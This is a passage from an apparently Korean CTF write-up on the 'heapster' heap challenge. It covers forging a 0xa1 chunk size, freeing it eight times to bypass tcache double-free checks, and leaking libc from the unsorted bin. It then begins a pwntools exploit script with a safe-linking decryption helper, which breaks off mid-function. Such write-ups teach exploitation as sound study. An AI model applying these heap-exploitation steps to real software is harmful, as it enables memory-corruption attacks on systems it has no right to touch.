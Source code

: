 ![Untitled](sstf-heapster/Untitled%203.png)

이 상태에서 크기 0xa1인 청크를 해제한다면!….

![Untitled](sstf-heapster/Untitled%204.png)

당연히 tcache로 들어갑니다 ㅋㅋㅋㅋ 하지만 우리는 double free 검사를 우회하는 것이 가능합니다! 크기가 0xa1로 변조된 청크를 double도 아니고 무려 octuple free를 해준다면!

![Untitled](sstf-heapster/Untitled%205.png)

unsorted bin에 들어간 청크를 얻을 수 있습니다👏🏻👏🏻. 여기서 `print`해준다면 libc 주소까지 얻는 것이 가능합니다!

```python
from pwn import *

context.log_level = 'debug'

p = process("./chal")

cmd = lambda x: p.sendlineafter(b'cmd:', str(x).encode())

def decrypt_safe_linking(ptr):
    _12bits = []
    dec = 0
    while ptr != 0:
        _12bits.append(ptr & 0xfff)
        ptr = ptr >> 12

    x = _12bits.pop()
    while len(_12bits) > 0:
        dec |= x
        dec = dec << 12
        y = _12bits.pop()
        x = x ^ y
    dec |= x

```